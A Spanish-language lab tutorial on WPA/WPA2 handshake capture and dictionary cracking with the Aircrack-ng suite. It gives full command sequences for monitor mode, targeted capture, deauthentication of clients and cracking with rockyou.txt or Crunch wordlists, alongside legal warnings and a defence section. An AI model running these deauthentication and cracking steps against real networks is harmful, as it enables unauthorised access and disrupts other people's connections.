






# 📡 Ataques a Redes WiFi con Aircrack-ng Suite

## 📖 ENUNCIADO (DESCRIPCIÓN)

En esta práctica aprenderemos a realizar un **ataque de captura de handshake WPA/WPA2** en redes WiFi utilizando la suite Aircrack-ng. El objetivo es capturar el "apretón de manos" (handshake) que ocurre cuando un cliente se conecta a un router WiFi, y posteriormente intentar descifrar la contraseña mediante un ataque de diccionario.

Esta técnica demuestra por qué es crucial usar contraseñas robustas en redes WiFi domésticas y empresariales.

> [!warning] ⚠️ ADVERTENCIA LEGAL CRÍTICA
>        Este tipo de ataque SOLO debe realizarse en redes WiFi de tu propiedad o con autorización explícita por escrito del propietario de la red.
>         Atacar redes WiFi sin autorización es un DELITO GRAVE que puede resultar en penas de prisión según el Código Penal (artículos 197 y 264).
>         Solo en tu red. Solo con autorización escrita. Solo con fines educativos.

## 📚 CONCEPTOS PREVIOS

### 🔐 ¿Qué es el Handshake WPA/WPA2?

#### 💡 Handshake de 4 vías (4-Way Handshake)

Cuando un dispositivo se conecta a una red WiFi WPA/WPA2, se produce un intercambio de mensajes entre el cliente y el router llamado **4-way handshake**:

* Mensaje 1: Router → Cliente (envía ANonce - número aleatorio)

* Mensaje 2: Cliente → Router (envía SNonce + MIC - código de integridad)

* Mensaje 3: Router → Cliente (confirma y envía clave de grupo)

* Mensaje 4: Cliente → Router (confirma recepción)

**¿Por qué es vulnerable?**

El handshake contiene información suficiente para realizar un ataque de fuerza bruta offline. Si capturamos estos 4 mensajes, podemos probar millones de contraseñas sin necesidad de estar conectados a la red.

### 🛠️ Suite Aircrack-ng

Aircrack-ng es un conjunto completo de herramientas para auditoría de seguridad en redes WiFi.

| Herramienta | Función | Uso Principal |
| --- | --- | --- |
| airmon-ng | Gestión del modo monitor | Activar/desactivar modo monitor en la tarjeta WiFi |
| airodump-ng | Captura de paquetes WiFi | Escanear redes, capturar handshakes, monitorizar tráfico |
| aireplay-ng | Inyección de paquetes | Deautenticación, ataques de replay, generación de tráfico |
| aircrack-ng | Cracking de claves | Ataque de diccionario sobre handshakes capturados |

### 📡 Modo Monitor

El **modo monitor** permite que una tarjeta WiFi capture todos los paquetes que circulan por el aire, no solo los destinados a ella. Es esencial para auditorías WiFi.

> Diferencia con modo managed:  En modo normal (managed), la tarjeta solo procesa paquetes dirigidos a su MAC. En modo monitor, captura TODO el tráfico WiFi en el canal especificado.

### ⚠️ Sobre WPS

> [!warning] 📝 Importante:  Esta práctica asume que  WPS (WiFi Protected Setup) está deshabilitado  en el router objetivo.
>        Si WPS estuviera habilitado, existen ataques específicos más rápidos como Reaver o Bully que explotan vulnerabilidades del protocolo WPS.

## 🖥️ Configuración del Entorno

### 📋 Requisitos

* 🐉 Kali Linux (física o virtual con USB passthrough)

* 📡 Tarjeta WiFi compatible con modo monitor y inyección de paquetes

* 📶 Router WiFi propio para pruebas (con WPA/WPA2)

* 📱 Cliente conectado a la red WiFi (opcional pero recomendado)

### 🔌 Tarjetas WiFi Compatibles

No todas las tarjetas WiFi soportan modo monitor. Las más recomendadas para auditoría WiFi son:

| Modelo | Chipset | Características | Precio Aprox. |
| --- | --- | --- | --- |
| Alfa AWUS036NHA | Atheros AR9271 | ✅ Muy recomendada, excelente compatibilidad | ~30-40€ |
| Alfa AWUS036ACH | Realtek RTL8812AU | ✅ Dual band (2.4GHz + 5GHz) | ~50-60€ |
| TP-Link TL-WN722N v1 | Atheros AR9271 | ✅ Económica (⚠️ solo versión 1.x) | ~15-20€ |
| Panda PAU09 | Ralink RT5372 | ✅ Buena relación calidad-precio | ~20-25€ |

> [!warning] ⚠️ Importante:  Verifica el chipset antes de comprar. Algunos fabricantes cambian chipsets entre versiones (ej: TP-Link TL-WN722N v1 funciona, v2 y v3 NO).
>        Lista completa de chipsets compatibles:  Wireless Hack - Compatible Adapters

## 🚀 Prueba de Concepto (PoC)

## 🔧 Paso 1: Preparación del Sistema

### 📌 Conectar la tarjeta WiFi

* Conecta la tarjeta WiFi USB al puerto USB del ordenador

* Si usas VirtualBox/VMware, pasa el dispositivo USB a la máquina virtual:

            VirtualBox: Dispositivos → USB → [Nombre de tu tarjeta WiFi]

* VMware: VM → Removable Devices → [Tarjeta WiFi] → Connect

### 🔐 Obtener privilegios de root

```bash
sudo su
```

Todos los comandos de esta práctica requieren privilegios de superusuario.

### 🔍 Verificar que la tarjeta WiFi es reconocida

```bash
iwconfig
```

Este comando lista las interfaces de red inalámbricas.

#### Salida esperada de iwconfig:

```bash
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated
          Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

**✅ Identificación:** La interfaz WiFi normalmente se llama `wlan0`, `wlan1`, o nombres similares.



> 📝 Nota:  En esta práctica usaremos `wlan0` como ejemplo. Si tu interfaz tiene otro nombre (ej: `wlp3s0`), sustitúyelo en todos los comandos.

## 📡 Paso 2: Activar Modo Monitor

### 🔓 Liberar la interfaz WiFi

Antes de activar el modo monitor, es recomendable matar procesos que puedan interferir:

```bash
airmon-ng check kill
```

**¿Qué hace este comando?**

* Mata procesos como NetworkManager, wpa_supplicant que gestionan conexiones WiFi

* Evita conflictos cuando activamos modo monitor

* Desconecta cualquier red WiFi activa en la interfaz

> [!warning] ⚠️ Consecuencia:  Perderás la conexión WiFi activa en Kali. Si necesitas internet, usa cable Ethernet o una segunda tarjeta WiFi.

### 🎯 Activar modo monitor

```bash
airmon-ng start wlan0
```

**Salida esperada:**

```bash
PHY     Interface       Driver          Chipset

phy0    wlan0           ath9k_htc       Atheros Communications, Inc. AR9271

                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

### ✅ Verificar el modo monitor

```bash
iwconfig
```

**Cambios esperados:**

* El nombre de la interfaz cambia a `wlan0mon` (o puede quedarse como `wlan0` dependiendo del driver)

* El modo cambia de `Managed` a `Monitor`

```bash
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm
```

> 📝 Nota importante:  En algunos sistemas, la interfaz se queda como `wlan0` incluso en modo monitor. Verifica con `iwconfig` si dice `Mode:Monitor`. Si es así, usa `wlan0` en los siguientes comandos en lugar de `wlan0mon`.

## 🔍 Paso 3: Escaneo de Redes WiFi

### 📡 Iniciar escaneo de redes

```bash
airodump-ng wlan0mon
```

Si tu interfaz no cambió de nombre, usa:

```bash
airodump-ng wlan0
```

#### Información mostrada por airodump-ng:



**Sección superior - Access Points (Routers/APs):**

| Campo | Descripción | Importancia |
| --- | --- | --- |
| BSSID | MAC del router/AP que genera la red | 🔴 CRÍTICO - Identificador único del router |
| PWR | Potencia de señal (-100 a 0 dBm) | ✅ Mejor cuanto más cercano a 0 |
| Beacons | Paquetes de anuncio de red | Info - Indica actividad del AP |
| #Data | Paquetes de datos capturados | 🔴 CRÍTICO - Necesario para capturar handshake |
| CH | Canal WiFi (1-14 en 2.4GHz) | ✅ Necesario para focalizarnos |
| MB | Velocidad máxima (Mbps) | Info - Indica protocolo (54=g, 150+=n) |
| ENC | Tipo de cifrado (WPA, WPA2, WEP) | ✅ Solo atacamos WPA/WPA2 |
| CIPHER | Algoritmo de cifrado (TKIP, CCMP) | Info - CCMP es más seguro que TKIP |
| AUTH | Método de autenticación | PSK = Pre-Shared Key (contraseña) |
| ESSID | Nombre de la red WiFi | ✅ Identificación visible |

**Sección inferior - Stations (Clientes conectados):**

* STATION: MAC del dispositivo cliente

* Lost: Paquetes perdidos

* Frames: Tramas capturadas del cliente

* Probe: SSIDs que el cliente ha buscado anteriormente

### 🎯 Identificar el Objetivo

**Selecciona tu red WiFi objetivo** basándote en:

* ✅ PWR cercano a 0: Buena señal (mejor para captura)

* ✅ Clientes conectados: Necesarios para deautenticación

* ✅ Cifrado WPA/WPA2: Objetivo de esta práctica

* ✅ Tu propia red: Solo ataca redes de tu propiedad

**Datos a anotar del objetivo:**

* 📝 BSSID: (Ejemplo: `1C:3B:F3:A0:77:88`)

* 📝 Canal (CH): (Ejemplo: `9`)

* 📝 ESSID: (Ejemplo: `MiWiFi_Pruebas`)

* 📝 MAC del cliente: Si hay alguno conectado

### 🔐 ESSID Oculto

> 📝 Nota:  Si aparece ` ` en lugar del nombre ESSID, significa que el SSID está oculto.
>        No te preocupes: cuando un cliente se conecte, airodump-ng capturará el nombre real automáticamente.

## 📹 Paso 4: Captura Focalizada del Objetivo

Una vez identificada la red objetivo, vamos a capturar específicamente su tráfico para obtener el handshake.

### 🎯 Comando de captura focalizada

```bash
airodump-ng -c [CANAL] -w auditoriaWifi --bssid [MAC_BSSID] wlan0mon
```

**Parámetros a sustituir:**

* `[CANAL]` → Canal donde opera la red (ej: 9)

* `[MAC_BSSID]` → MAC del router objetivo (ej: 1C:3B:F3:A0:77:88)

**Ejemplo real:**

```bash
airodump-ng -c 9 -w auditoriaWifi --bssid 1C:3B:F3:A0:77:88 wlan0mon
```

**📋 Explicación de parámetros:**

* `-c 9` → Focaliza la captura en el canal 9

* `-w auditoriaWifi` → Nombre base para los archivos de captura

* `--bssid` → Solo captura tráfico de este BSSID específico

#### Captura en progreso:



**Elementos a monitorizar:**

* #Data: Debe ir incrementándose (indica actividad de clientes)

* WPA handshake: En la esquina superior derecha aparecerá cuando se capture

* Clientes conectados: Verifica que hay al menos un cliente activo

> [!warning] 📊 Sobre los #Data (paquetes de datos)
>
>        El número en la columna #Data debe ir subiendo. Si se queda estático:
>
>          ❌ No hay clientes conectados navegando
>          ❌ Los clientes están inactivos (dormidos, sin usar la red)
>          ✅ Solución: Deautenticar clientes (siguiente paso)
>
>
>         Regla general:  Con ~5000-10000 Data capturados y un handshake, tendrás suficiente para el ataque de diccionario.

#### 📁 Archivos generados

Airodump-ng creará varios archivos con el prefijo especificado:

* `auditoriaWifi-01.cap` → Captura principal (formato pcap)

* `auditoriaWifi-01.csv` → Datos en formato CSV

* `auditoriaWifi-01.kismet.csv` → Formato Kismet

* `auditoriaWifi-01.kismet.netxml` → XML de Kismet

El archivo **.cap** es el que usaremos posteriormente con aircrack-ng.

> ⏱️ Tiempo de captura:  Deja este terminal capturando mientras realizas el siguiente paso (deautenticación). NO lo cierres hasta capturar el handshake.

## ⚡ Paso 5: Ataque de Deautenticación

Para capturar el handshake, necesitamos forzar a un cliente a reconectarse. Usaremos **aireplay-ng** para enviar paquetes de deautenticación.

### 🔄 Flujo de trabajo

* Terminal 1: Airodump-ng capturando (NO cerrar)

* Terminal 2: Aireplay-ng enviando deauth (nuevo terminal)

Ambos terminales deben estar ejecutándose simultáneamente.

### 🆕 Abrir segundo terminal

* Abre una nueva ventana de terminal

* Obtén privilegios root: `sudo su`

### 🎯 Tipos de Ataques con Aireplay-ng

#### Ver opciones disponibles

```bash
aireplay-ng --help
```



| Ataque | Código | Descripción | Uso |
| --- | --- | --- | --- |
| Deauth | `-0` o `--deauth` | Desconecta clientes del AP | ✅ Capturar handshake |
| Fake auth | `-1` | Autenticación falsa con AP | Ataques WEP |
| Interactive replay | `-2` | Replay de paquetes seleccionados | Ataques WEP |
| ARP replay | `-3` | Inyección de ARP requests | Generar IVs para WEP |

### ⚡ Ejecutar Ataque de Deautenticación

#### Deauth dirigido a un cliente específico

```bash
aireplay-ng --deauth 1 -a [MAC_BSSID] -c [MAC_CLIENTE] wlan0mon
```

**Forma abreviada:**

```bash
aireplay-ng -0 1 -a [MAC_BSSID] -c [MAC_CLIENTE] wlan0mon
```

**Ejemplo real:**

```bash
aireplay-ng -0 1 -a 1C:3B:F3:A0:77:88 -c 48:D2:24:AA:BB:CC wlan0mon
```

**📋 Explicación de parámetros:**

* `-0 1` → Ataque deauth, enviar 1 paquete de desconexión

* `-a [MAC_BSSID]` → MAC del router/AP

* `-c [MAC_CLIENTE]` → MAC del cliente a desconectar



#### Deauth broadcast (todos los clientes)

Si no especificas `-c`, se desconectan TODOS los clientes:

```bash
aireplay-ng -0 5 -a [MAC_BSSID] wlan0mon
```

**Ejemplo:**

```bash
aireplay-ng -0 5 -a 1C:3B:F3:A0:77:88 wlan0mon
```

Esto envía 5 deauths broadcast.

### 📊 Interpretar Resultados del Deauth

#### Valores ACK



El formato es `ACK [enviados]/[recibidos]`:

| Valor | Significado | Acción |
| --- | --- | --- |
| `0/45` | ❌ No se recibieron ACKs | Cliente posiblemente desconectado o fuera de rango |
| `45/45` | ✅ Todos los ACKs recibidos | Ataque exitoso, cliente desconectado |
| `23/45` | ⚠️ ACKs parciales | Conexión débil, repetir ataque |

### ⚠️ Recomendaciones de Uso

> [!warning] ✅  Repetir 6-7 veces:  Forzar deauths múltiples aumenta probabilidad de capturar handshake
>          ⏱️  Espaciar los ataques:  Espera 5-10 segundos entre cada deauth
>          ⚠️  Evitar DoS:  No envíes cientos de deauths seguidos, es innecesario y contraproducente
>          🎯  Objetivo específico:  Es mejor usar `-c` con MAC del cliente que broadcast
>          👁️  Monitorizar terminal 1:  Observa si aparece "WPA handshake" en airodump-ng

### ✅ Verificar Captura del Handshake

En el **terminal 1** (donde corre airodump-ng), verás en la esquina superior derecha:

```bash
CH  9 ][ Elapsed: 2 mins ][ 2024-01-15 14:32 ][ WPA handshake: 1C:3B:F3:A0:77:88
```

**🎉 ¡ÉXITO!** Has capturado el handshake.

Ahora puedes detener ambos terminales (`Ctrl+C`).

## 🔓 Paso 6: Cracking del Handshake con Aircrack-ng

Una vez capturado el handshake, podemos realizar un **ataque de diccionario offline** para intentar descubrir la contraseña WiFi.

### 🔨 Comando de cracking

**Vemos antes información sobre la captura

```bash
aircrack-ng auditoriaWifi-01.cap
```

	  Y para crackear la contraseña usamos:

```bash
aircrack-ng -w [DICCIONARIO] -b [MAC_BSSID] auditoriaWifi-01.cap
```

      Ejemplo con rockyou.txt:**

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 1C:3B:F3:A0:77:88 auditoriaWifi-01.cap
```

**📋 Explicación de parámetros:**

* `-w` → Ruta al archivo de diccionario

* `-b` → BSSID del objetivo (filtra si hay múltiples handshakes en el .cap)

* `auditoriaWifi-01.cap` → Archivo de captura con el handshake

### 📚 Preparar el Diccionario RocKyou

Kali Linux incluye el famoso diccionario **rockyou.txt** (14+ millones de contraseñas reales filtradas), pero viene comprimido.

#### Descomprimir rockyou.txt

```bash
cd /usr/share/wordlists/
gunzip rockyou.txt.gz
```

Ahora puedes usarlo:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] auditoriaWifi-01.cap
```

### 📊 Proceso de Cracking

**Salida mientras prueba contraseñas:**

```bash
Opening auditoriaWifi-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.7

      [00:00:42] 125847/14344391 keys tested (2954.23 k/s)

      Time left: 1 hour, 20 minutes, 15 seconds                 0.88%

                          KEY FOUND! [ password123 ]

      Master Key     : CD 69 0D 11 8E AC AA C5 C5 EC D6 F7 84 C4 DF 6A
                       4C 68 87 74 E5 15 5C 52 F9 14 E0 E8 A9 A6 F8 08

      Transient Key  : CB 7A 36 B4 9F 9F 4C 9F C0 5D AF 9C 4C B0 A9 E2
                       2F 76 3F 34 3F 40 9A 14 80 39 1B 15 1A 46 4A 6A
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

**🎉 ¡CONTRASEÑA ENCONTRADA!** En este ejemplo: `password123`

### ⏱️ Tiempo de Cracking

| Complejidad de Contraseña | Tiempo Estimado | Probabilidad de Éxito |
| --- | --- | --- |
| Contraseña común (ej: 123456, password) | Segundos | ✅ Alta (si está en diccionario) |
| Palabra del diccionario + números | Minutos a horas | ✅ Media-Alta |
| Contraseña compleja (12+ chars, mixta) | Años o inviable | ❌ Muy Baja |

> [!warning] 💡 Importante:  Este es un ataque de  diccionario , NO de fuerza bruta total.
>
>          Solo prueba contraseñas que están en el diccionario
>          Si la contraseña NO está en el diccionario, nunca la encontrará
>          Contraseñas largas y aleatorias son prácticamente imposibles de crackear

### 📖 Otros Diccionarios

#### Diccionarios en Kali Linux

```bash
ls /usr/share/wordlists/
```

Diccionarios disponibles:

* `rockyou.txt` → 14M contraseñas (recomendado)

* `dirb/` → Diccionarios para fuzzing web

* `metasploit/` → Diccionarios de Metasploit

* `wfuzz/` → Diccionarios para Wfuzz

#### Diccionarios específicos de WiFi

Puedes descargar diccionarios especializados en contraseñas WiFi:

```bash
wget https://github.com/berzerk0/Probable-Wordlists/raw/master/Real-Passwords/WPA-Length/Top2Billion-probable-v2.txt
```

### 🛠️ Generar Diccionarios Personalizados con Crunch

#### Uso básico de Crunch

Crunch permite generar diccionarios personalizados con patrones específicos.

**Generar todas las combinaciones de 8 caracteres numéricos:**

```bash
crunch 8 8 0123456789 -o numeros8.txt
```

**Generar contraseñas de 8-10 caracteres alfanuméricos:**

```bash
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha-numeric -o custom.txt
```

**Patrones específicos (ej: WiFi-XXXX donde X es dígito):**

```bash
crunch 9 9 -t WiFi-%%%% -o wifi_pattern.txt
```

**📋 Símbolos de patrón en Crunch:**

* `@` → Letras minúsculas

* `,` → Letras mayúsculas

* `%` → Números

* `^` → Símbolos

> [!warning] ⚠️ Advertencia sobre Crunch:
>        Generar diccionarios muy grandes puede consumir  cientos de GB de espacio en disco  y tardar horas/días.
>        Ejemplo: Todas las combinaciones alfanuméricas de 8 caracteres = ~218 TB de datos.

## 🔄 Resumen del Flujo Completo

### 📋 Pasos resumidos del ataque

* Preparación:

```bash
sudo su
iwconfig
airmon-ng check kill
airmon-ng start wlan0
```

* Escaneo de redes:

```bash
airodump-ng wlan0mon
```

          → Identificar BSSID, Canal y clientes

* Captura focalizada (Terminal 1):

```bash
airodump-ng -c [CH] -w auditoriaWifi --bssid [BSSID] wlan0mon
```

* Deautenticación (Terminal 2):

```bash
aireplay-ng -0 5 -a [BSSID] -c [CLIENTE] wlan0mon
```

          → Repetir 6-7 veces hasta capturar handshake

* Cracking:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] auditoriaWifi-01.cap
```

### 🎯 Diagrama de flujo

```bash
┌─────────────────────────────┐
│   Conectar Tarjeta WiFi     │
│   Activar Modo Monitor      │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   Escanear Redes WiFi       │
│   (airodump-ng)             │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   Identificar Objetivo      │
│   (BSSID, Canal, Clientes)  │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   Captura Focalizada        │
│   (airodump-ng + filtros)   │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   Deautenticación           │
│   (aireplay-ng)             │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   ¿Handshake Capturado?     │
│   (verificar terminal)      │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   Cracking con Diccionario  │
│   (aircrack-ng)             │
└──────────┬──────────────────┘
           │
           ▼
┌─────────────────────────────┐
│   ¿Contraseña Encontrada?   │
│   (éxito o diccionario      │
│    insuficiente)            │
└─────────────────────────────┘
```

## 🛡️ Medidas de Defensa

### 🔒 ¿Cómo protegerse de estos ataques?

| Medida | Efectividad | Dificultad |
| --- | --- | --- |
| Contraseña larga y compleja(16+ caracteres, mixta) | ✅ Muy Alta | 🟢 Fácil |
| WPA3 (en lugar de WPA2) | ✅ Muy Alta | 🟡 Media (requiere router compatible) |
| Deshabilitar WPS | ✅ Alta | 🟢 Fácil |
| Ocultar SSID | ⚠️ Baja (seguridad por oscuridad) | 🟢 Fácil |
| Filtrado MAC | ⚠️ Muy Baja (MACs spoofables) | 🟡 Media |
| 802.1X / RADIUS (empresas) | ✅ Muy Alta | 🔴 Alta (infraestructura compleja) |
| VPN adicional | ✅ Alta (cifrado adicional) | 🟡 Media |

### 💪 Recomendaciones de Contraseñas Seguras

#### ✅ Contraseñas FUERTES (resistentes a estos ataques)

* ✅ Longitud mínima: 16+ caracteres

* ✅ Mezcla de tipos: Mayúsculas, minúsculas, números, símbolos

* ✅ Aleatoriedad: Sin palabras del diccionario

* ✅ Único: No reutilizar en otros servicios

**Ejemplos de contraseñas FUERTES:**

```bash
Xk9$mP2#vL5@nQ8!wR3
TigerJump&Moon#42Sky!Planet
r8N$x3Qm@7WpZ5!vK2Lh
```

#### ❌ Contraseñas DÉBILES (crackeables en minutos)

* ❌ Palabras del diccionario: `password, dragon, qwerty`

* ❌ Secuencias numéricas: `12345678, 11111111`

* ❌ Patrones de teclado: `qwertyuiop, asdfghjkl`

* ❌ Nombres propios + año: `Maria2023, Carlos1990`

* ❌ Información personal: `NombreApellido, FechaNacimiento`

### 🔍 Detección de Ataques WiFi

* ✅ Wireless Intrusion Detection Systems (WIDS): Detectan deauths anómalos

* ✅ Logs del router: Revisar desconexiones frecuentes

* ✅ Herramientas de monitorización: Kismet, Wireshark

* ✅ Alertas de reconexión: Múltiples reconexiones en corto tiempo

### 🏢 Para Empresas

* ✅ Usar WPA3-Enterprise con autenticación 802.1X

* ✅ Implementar servidor RADIUS para gestión centralizada

* ✅ Segmentación de red: WiFi invitados separado de red corporativa

* ✅ Rotación de contraseñas: Cambio periódico de PSK

* ✅ Auditorías regulares: Pentesting WiFi periódico

* ✅ WIDS comerciales: Aruba, Cisco, etc.

## 🔧 Troubleshooting (Solución de Problemas)

### ❌ Problema: "No wireless extensions"

**Causa:** La tarjeta WiFi no es reconocida o no está conectada a la VM.

**Solución:**

* Verificar que la tarjeta esté conectada físicamente

* En VirtualBox/VMware, pasar el dispositivo USB a la VM

* Ejecutar `lsusb` para verificar que aparece

* Instalar drivers si es necesario (Realtek requiere drivers adicionales)

### ❌ Problema: ACK 0/X (no se reciben ACKs)

**Causa:** Cliente fuera de rango, ya desconectado, o MAC incorrecta.

**Solución:**

* Verificar que la MAC del cliente es correcta

* Acercarse al router objetivo

* Intentar deauth broadcast (sin -c)

* Verificar que hay clientes conectados en airodump-ng

### ❌ Problema: No se captura el handshake

**Causas posibles:**

* Cliente no se reconecta automáticamente

* Handshake perdido por mala señal

* Router con protección contra deauth

**Solución:**

* Repetir deauths 8-10 veces

* Acercarse más al router (mejor señal)

* Esperar a que un cliente se conecte naturalmente

* Probar con múltiples clientes diferentes

### ❌ Problema: "Channel X: waiting for beacon frame"

**Causa:** La tarjeta no puede escuchar en ese canal.

**Solución:**

* Verificar que el canal es válido (1-14 en 2.4GHz, 36+ en 5GHz)

* Algunas tarjetas no soportan 5GHz

* Reiniciar la tarjeta en modo monitor

### ❌ Problema: Aircrack-ng no encuentra la contraseña

**Causa:** La contraseña no está en el diccionario.

**Solución:**

* Probar con diccionarios más grandes

* Generar diccionarios personalizados con Crunch

* Usar reglas de Hashcat para mutaciones

* Considerar que contraseñas fuertes son inviables de crackear

## 📚 Conclusiones

### 🎓 Lo que hemos aprendido:

* ✅ Funcionamiento del handshake WPA/WPA2 de 4 vías

* ✅ Uso de la suite Aircrack-ng (airmon-ng, airodump-ng, aireplay-ng, aircrack-ng)

* ✅ Activación del modo monitor en tarjetas WiFi

* ✅ Escaneo y captura de tráfico WiFi

* ✅ Ataques de deautenticación para capturar handshakes

* ✅ Cracking de contraseñas mediante diccionarios

* ✅ Generación de diccionarios personalizados con Crunch

* ✅ Importancia de contraseñas robustas en seguridad WiFi

* ✅ Medidas de defensa y detección

### ⚠️ Responsabilidad Legal y Ética:

Este conocimiento debe usarse ÚNICAMENTE para:

* 🏠 Auditar la seguridad de tu propia red WiFi

* 🔐 Pentesting con autorización por escrito del propietario

* 🎓 Educación en entornos de laboratorio controlados

* 🛡️ Mejorar la seguridad de redes legítimas

**NUNCA para:**

* ❌ Atacar redes WiFi de vecinos o terceros

* ❌ Acceder a redes sin autorización

* ❌ Robar información o ancho de banda

* ❌ Cualquier actividad ilegal

**Atacar redes WiFi sin autorización es un DELITO GRAVE penado con prisión (Código Penal artículos 197, 264, 264 bis).**

> [!warning] 💡 Lecciones de Seguridad
>        Esta práctica demuestra que:
>
>          🔑 La seguridad WiFi depende principalmente de la  fortaleza de la contraseña
>          📏 Contraseñas largas (16+ caracteres) y complejas son prácticamente invulnerables a estos ataques
>          ⚡ WPA2 con contraseña débil puede crackearse en minutos
>          🛡️ WPA3 ofrece protección adicional contra estos ataques
>          🔐 Una red "oculta" (SSID hidden) NO es más segura
>          📡 El cifrado WiFi protege solo hasta el router - usa HTTPS/VPN para privacidad total

## 📖 Referencias y Recursos Adicionales

* 🔗 Aircrack-ng Official Website

* 🔗 Aircrack-ng Tutorial Official

* 🔗 Wireless Hack - WiFi Hacking Resources

* 🔗 WiFi Cracking - GitHub Guide

* 🔗 WiFi Alliance - Security

* 🔗 Wikipedia - WPA/WPA2 Protocol

* 📚 Libro: "Kali Linux Wireless Penetration Testing Beginner's Guide" - Vivek Ramachandran

### 🛠️ Herramientas Alternativas

* Wifite: Automatiza ataques WiFi (wrapper de Aircrack-ng)

* Bettercap: Framework moderno de ataque WiFi

* Hashcat: Cracking GPU-acelerado de handshakes

* Reaver/Bully: Ataques específicos contra WPS

* Kismet: Detector y sniffer WiFi pasivo

* WiFi Pineapple: Hardware especializado para pentesting WiFi
